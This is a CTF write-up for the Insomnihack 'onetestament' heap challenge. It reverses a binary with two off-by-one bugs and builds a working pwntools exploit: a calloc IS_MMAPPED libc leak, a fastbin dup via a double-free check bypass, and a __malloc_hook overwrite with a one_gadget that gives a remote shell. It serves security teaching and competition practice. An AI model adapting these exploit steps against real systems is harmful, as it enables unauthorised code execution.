



## Challenge Description

```
    What will be your last wish ;-)

    nc onetestament.insomnihack.ch 6666
```

### Files 
We are provided with a binary file and a stripped libc. The [onetestament.zip](./files/onetestament.zip) file includes the following:
- challenge binary
- libc.so.6 unstripped with symbols (version: libc-2.23)
- Ghidra file to import with good annotations (all work done by [un!ↄ0rn]$)


## Preamble
We unfortunately didn't solve this during the competition =/

`un!ↄ0rn]$` did 90% of the reversing work and all annotations in the files provided below are hers.


## Reversing
Please note, the binary's base address has been set to `0x555555554000` in Ghidra because this matches the base address used by GDB and makes reversing easier (at least for me).

### checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All protections except stack canaries are in place, but since this is a heap challenge, the presence of canaries or lackthereof doesn't affect us.


### Understanding the binary
After running the binary, we have the following 5 menu options:
- Create new testament
- Show testament (this is a dummy function and doesn't do anything useful)
- Edit testament
- Delete testament
- Exit (not used in our solution)

Looks like a classic heap CTF challenge.


### Create Testament
When we create a new testament, we can choose one of four types; depending on the type, the size of the chunk to be allocated is different:



Based on the screenshot above, we can allocate chunks with the following sizes:
- 0x40
- 0x20
- 0x70
- 0x90

All types except type 4 assign fast-sized chunks. Please also note the last line which shows that `calloc` is being used for allocation.

After choosing the testament type, we can fill the testament with our input. Finally, the contents of the newly-created testament are printed out:



It appears that leaking data right after allocation might be tricky because `calloc` is zero'ing out user data right after allocation.


### Edit Testament
We can edit a testament after creating it, but the name of the functionality is misleading since we can only increment one byte by 1 in a given testament.

```c
  // chunk offset to edit
  printf("Please enter your testament content: ");
  chunk_offset = readOption();
  if (check < chunk_offset) {
    printMessage("Nope, impossible!");
  }
  
  chunk_ptr = (char *)(chunk + (ulong)chunk_offset);
  
  // increment byte at offset by 1
  *chunk_ptr = *chunk_ptr + '\x01';
```
There is an off-by-one bug here where we can supply the size of the chunk being edited as the offset and increment the byte that corresponds to **the next chunk's size field**.


### Delete Testament
We can delete testaments which essentially frees them. There is also a pseudo double-free check being carried out:

```c
  index = readOption();  // testament index to try and free
  if (9 < index) {
    printMessage("Oops! not a valid index");
  }
  __ptr = *(void **)(&testaments + (ulong)index * 8);
  if (__ptr == NULL) {
    printMessage("Impossible! No testaments");
  }
  switch(index) {
  case 0:
    if (doubleFreeCheck0 == 0) {
      printMessage("Impossible to delete again this testament");
    }
    else {
      free(__ptr);
      doubleFreeCheck0 = 0;
    }
    break;
  case 1:
    if (doubleFreeCheck1 == 0) {
      printMessage("Impossible to delete again this testament");
    }
    else {
      free(__ptr);
      doubleFreeCheck1 = 0;
    }
    break;
  case 2:
    if (doubleFreeCheck2 == 0) {
      printMessage("Impossible to delete again this testament");
    }
    else {
      free(__ptr);
      doubleFreeCheck2 = 0;

      // <-- code for remaining indexes removed for brevity -->
```

Basically, depending on the index chosen, a corresponding global variable is checked; if the variable is 0, the testament has already been free'd hence the program exists. If the variable is non-zero, the testament is freed and the variable is set to 0 to prevent additional frees.

However, there is another one-byte overflow in the `readoption()` function, where we can overflow the `optionBuf` variable and overwrite the `doubleCheck4` variable.

```c
int readOption(void)
{
  int idx;
  
  read(0,&optionBuf,5);
  idx = atoi(&optionBuf);  //optionBuf is only 4 bytes 
  if (idx < 0) {
    idx = 0;
  }
  return idx;
}
```



Using this bug, we can achieve a double-free only with the testament at index 4 (i.e. the 5th chunk allocated).


## Exploit Strategy

We have two off-by-one bugs to work with that can result in:
- Incrementing the next chunk's size field by 1
- Double-freeing a chunk

The libc version is 2.23, so there is no `tcache` present. We also need some way to leak addresses, but the only functionality that prints testament data is the Create Testament functionality which uses `calloc`.


### IS_MMAPED flag

Fortunately / unfortunately, the day before the CTF I was finishing up the amazing HeapLab Part 2 course on Udemy by Max Kamper and was reading one of the annoucements where Max wrote about one of the students who used a trick in one of the course's challenge binaries to leak addresses when `calloc` was being used.

The trick revolves around a chunk's `IS_MMAPED` flag being set; if present, `calloc` will not zero out the chunk's user data after allocation because it assumes the chunk has been allocated via `mmap()` which also zeroes out data.

The least significant nybble of a chunk's size field is not taken into account for its size. Rather, it's used to set various flags. These are:
- PREV_INUSE 
- IS_MMAPPED 
- NON_MAIN_ARENA

Hence, we can use the off-by-one bug in the Edit Testament functionality to increase the size of a free'd chunk's size field, setting the `IS_MMAPED_FLAG`. This means that if another chunk with the same size is allocated, `calloc` will not zero out any data already present, and the Create Testament functionality will print out residual data. This can be used to leak a libc address:

```python
# =-=-=- Set IS_MMAPPED_FLAG =-=-=-

# Create 0x20-sized chunk to overflow
overflow = create(1, 'overflow')

# create 0x90-sized chunk to leak and free it into unsortedbin
# create 0x70-sized top chunk guard to protect against
# consolidation and use later for fastbin dup
leaker = create(4, 'leaker')
guard = create(3, 'guard')
delete(leaker)

# Set IS_MMAPPED
edit(overflow, '24')

# Assign new 0x90-sized chunk and leak libc
# we're leaking unsortedbin BK (NOT fd)
leaker, libc_leak = create(4, 'leakerr', leak=True)
libc_leak = uu64(libc_leak.strip())
libc.address = libc_leak - 0x3c4b78
log_addr('Libc leak', libc_leak)
log_addr('Libc base', libc.address)
```

And we successfully leak a libc address on the remote binary and resolve its libc base address.
```
[+] Opening connection to onetestament.insomnihack.ch 
[*] Libc leak: 0x7f91f59acb78
[*] Libc base: 0x7f91f55e8000

```

### Fastbin dup
Now that we have a libc address, we can leverage the second off-by-one bug to carry out a fastbin dup via a double-free. We just need to make sure we overflow the `optionBuf` global variable to bypass the pseudo double-free check by sending `'00004'` as the chunk index.

```python
# =-=-= Helper =-=-=--=
def delete(idx, overflow=False):
    sla(b'choice: ', b'4')
    # overflow optionBuf to bypass double-free check
    if overflow:
        payload = str(idx).encode()
        payload = payload.rjust(5, b'0')
        # payload = '00004'
        log.info(f'Bypassing double-free check with: {payload}')  
        sla(b'index: ', payload)
    else:
        sla(b'index: ', str(idx).encode())

# =-=-=- Fastbin-dup =-=-=-
# Assign 0x70-sized chunk
dup = create(3, 'dup')
log.info(f'dup index: {dup}')

# double free
delete(dup)
delete(guard)
delete(dup, overflow=True)
```

Now the fastbins list look like this, meaning we've successfully performed a fastbin dup.

```
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x55555575a120 —▸ 0x55555575a0b0 ◂— 0x55555575a120
0x80: 0x0
```

### Wrapping up
All that's left is to hijack the flow of execution and drop a shell remotely. Because we're dealing with traditional fastbins, we need to account for a size-field integrity check when linking fake chunks into the fastbins. Hence, we need to make sure our chunks used for our fastbin dup are 0x70-sized because we can forge fake chunks with size `0x7f` near the `__malloc_hook`. Pwndbg has a nice command to automate this: `find_fake_fast`:

```
pwndbg> find_fake_fast &__malloc_hook
FAKE CHUNKS
Fake chunk | Allocated chunk | PREV_INUSE | IS_MMAPED | NON_MAIN_ARENA
Addr: 0x7ffff7dd1aed
prev_size: 0xfff7dd0260000000
size: 0x7f
fd: 0xfff7a92ea0000000
bk: 0xfff7a92a7000007f
fd_nextsize: 0x7f
bk_nextsize: 0x00
```

`0x7ffff7dd1aed` can be used as the address of our fake chunk. Calculating the distance from the `__malloc_hook`:

```
pwndbg> distance &__malloc_hook 0x7ffff7dd1aed
0x7ffff7dd1b10->0x7ffff7dd1aed is -0x23 bytes
```

After linking our fake chunk at the above address into the fastbins, we can finally overwrite `__malloc_hook` with a one_gadget (since we don't directly control arguments to `calloc`). I used the second one:
 
```python
# Get pointer to fake 0x70-sized chunk near __malloc_hook
# by overwriting fd of first fast chunk
create(3, p64(libc.sym.__malloc_hook - 0x23))

# move pointer to fake chunk to head of fastbin
create(3, 'junk')
create(3, 'junk')

# overwrite __malloc_hook using our fake chunk
# accounting for the fact that malloc returns pointers
# to chunk headers but operates on user data,
# That's why we use 0x13 instead of 0x23
create(3, p8(0) * 0x13 + p64(libc.address + 0x4527a))

# trigger one-gadget
sla(b'choice: ', b'1')
sla(b'choice: ', b'1')

# =-=-=-==-=-=-=-=-=
io.interactive()
```

One-gadgets for reference:


```c
# One gadgets
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

## Final exploit script:

[x.py](./files/x.py)

```
[+] Opening connection to onetestament.insomnihack.ch on port 6666: Done
[*] Libc leak: 0x7fc41758eb78
[*] Libc base: 0x7fc4171ca000
[*] dup index: 4
[*] Bypassing double-free check with: b'00004'
[*] Switching to interactive mode
$ 
$ id
uid=1000(onetestament) gid=1000(onetestament) groups=1000(onetestament)
$ cat flag
INS{0ld_7r1ck5_4r3_7h3_b357}
$  
```

## Similar challenge (I think)
[RCTF18-stringer](https://abiondo.me/2018/05/21/rctf18-stringer/)